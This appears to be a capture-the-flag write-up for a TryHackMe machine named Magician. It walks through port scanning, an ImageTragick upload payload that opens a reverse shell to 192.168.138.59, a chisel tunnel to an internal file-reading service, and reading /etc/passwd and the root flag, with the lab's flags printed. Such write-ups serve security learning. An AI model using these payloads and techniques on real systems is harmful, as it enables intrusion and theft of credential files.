









## TL;DR

In this challenge we first exploit `RCE` on the `ImageMagick` service. Then, we use the internal `LFI` service on port `6666` to grab the root flag. 

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `21` with ftp, port `8080` with apache tomcat and port `8081` with nginx http server.
```bash
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 62 vsftpd 2.0.8 or later
8080/tcp open  http    syn-ack ttl 62 Apache Tomcat (language: en)
|_http-title: Site doesn't have a title (application/json).
8081/tcp open  http    syn-ack ttl 62 nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET
|_http-title: magician
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: CA4D0E532A1010F93901DFCB3A9FC682
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `magician` to my `/etc/hosts` file.

### RCE on ImageMagick service at port 8081

I first went for the ftp service. It allows only anonymous connection, however, for some reason it just freeze:
```bash
┌──(agonen㉿kali)-[~/thm/Magician]
└─$ ftp anonymous@magician
Connected to magician.
220 THE MAGIC DOOR
331 Please specify the password.
Password: 
230-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
230 Login successful.
```

After some time, we got the message that was intended to help us:
```bash
this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
```

When I visited the main page, we can see this image convertor magician



I went to the link [https://imagetragick.com](https://imagetragick.com) and found out there is some `RCE` vulnerability on the `ImageMagick` convertor. We'll take the payload for `RCE` from here [https://techbrunch.github.io/patt-mkdocs/Upload%20Insecure%20Files/Picture%20Image%20Magik/#exploit-v1](https://techbrunch.github.io/patt-mkdocs/Upload%20Insecure%20Files/Picture%20Image%20Magik/#exploit-v1) 
```bash
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/192.168.138.59/1337 0<&1 2>&1'
pop graphic-context
pop graphic-context
```

Just put it inside `exploit.png`, and upload it after setting the listener locally:
```bash
nc -nvlp 1337
```

we got the reverse shell



I'll paste the payload of penelope for easier shell.
The user flag:
```bash
magician@magician:~$ cat user.txt 
THM{simsalabim_hex_hex}
```

### Find root flag using LFI service

we first find the note that says there is some listening port that might tells us secrets.
```bash
magician@magician:~$ cat the_magic_continues 
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
```

I used `ss -tl` and found port `6666`



I set up port tunneling using `chisel` which I uploaded to the machine
* locally:
```bash
chisel server --reverse -p 1234
```
* remotely:
```bash
./chisel client 192.168.138.59:1234 R:9000:127.0.0.1:6666
```



Now, we can access port `6666` locally, which was tunneled to port `9000`;
```bash
http://127.0.0.1:9000/
```



It looks like some `LFI` portal, but each time it encodes the file content in other way. For example, I tried to get `/etc/passwd`:



This was encoded with base64, others as binary or hex. We can verify that with CyberChef



Okay, I tried to get `/root/root.txt` and got back hex string, which was decoded to the flag:
```bash
THM{magic_may_make_many_men_mad}
```



We probably can escalate to root using read of root ssh private key, located at `/root/.ssh/id_rsa`, or maybe crack the root hash from `/etc/shadow`